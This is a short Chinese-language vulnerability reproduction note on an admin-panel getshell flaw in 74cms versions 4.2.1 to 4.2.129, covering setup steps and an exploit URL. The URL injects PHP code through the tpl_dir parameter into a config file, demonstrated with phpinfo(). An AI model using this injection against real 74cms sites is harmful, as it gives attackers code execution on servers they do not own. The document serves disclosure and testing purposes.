



74cms v4.2.1 v4.2.129 后台getshell漏洞¶
漏洞描述¶
厂商：74cms 下载地址：http://www.74cms.com/download/index.html 关于版本： 新版的74cms采用了tp3.2.3重构了，所以可知底层是tp，74cms新版升级是后台升级的，所以先将将升级方法。 注：此漏洞不用升级至最新版本也可使用。
漏洞复现¶
74cms升级到最新版¶
1， 先去官网下载 骑士人才系统基础版(安装包) 2， 将下载好的包进行安装 3， 进入后台点击查看如果不是最新版的话，请点击升级！ 4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决 5， 搜索文件74cms\upload\Application\Admin\Controller\ApplyController.class.php 6， 查找所有$_SERVER['HTTP_HOST'] 改为 http://baidu.com 即可
漏洞演示¶

url:
http://74cms.test/index.php?m=Admin&c=Tpl&a=set&tpl_dir= ', 'a',phpinfo(),'
shell:
http://74cms.test/Application/Home/Conf/config.php
路径：
\74cms\upload\Application\Home\Conf\config.php

